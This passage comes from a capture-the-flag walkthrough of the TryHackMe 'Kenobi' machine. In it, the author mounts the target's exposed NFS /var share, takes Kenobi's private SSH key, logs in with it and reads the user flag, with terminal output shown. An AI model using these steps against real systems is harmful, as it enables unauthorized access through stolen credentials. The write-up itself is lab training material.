 We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

Lets mount the /var/tmp directory to our machine :

<span style="color: rgb(224, 62, 45);">mkdir /mnt/kenobiNFS</span>  
<span style="color: rgb(224, 62, 45);">mount 10.10.157.52:/var /mnt/kenobiNFS</span>  
<span style="color: rgb(224, 62, 45);">ls -la /mnt/kenobiNFS</span>

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ sudo mkdir /mnt/kenobiNFS
[sudo] password di hax: 

┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ sudo mount 10.10.157.52:/var /mnt/kenobiNFS
                                                               
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ ls -la /mnt/kenobiNFS
totale 56
drwxr-xr-x 14 root root  4096  4 set  2019 .
drwxr-xr-x  3 root root  4096 14 lug 17.04 ..
drwxr-xr-x  2 root root  4096  4 set  2019 backups
drwxr-xr-x  9 root root  4096  4 set  2019 cache
drwxrwxrwt  2 root root  4096  4 set  2019 crash
drwxr-xr-x 40 root root  4096  4 set  2019 lib
drwxrwsr-x  2 root staff 4096 12 apr  2016 local
lrwxrwxrwx  1 root root     9  4 set  2019 lock -> /run/lock
drwxrwxr-x 10 root _ssh  4096  4 set  2019 log
drwxrwsr-x  2 root mail  4096 27 feb  2019 mail
drwxr-xr-x  2 root root  4096 27 feb  2019 opt
lrwxrwxrwx  1 root root     4  4 set  2019 run -> /run
drwxr-xr-x  2 root root  4096 30 gen  2019 snap
drwxr-xr-x  5 root root  4096  4 set  2019 spool
drwxrwxrwt  6 root root  4096 14 lug 17.02 tmp
drwxr-xr-x  3 root root  4096  4 set  2019 www
                                                                
```

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ sudo chmod 600 id_rsa      

┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ ssh -i id_rsa kenobi@10.10.157.52

kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899

```
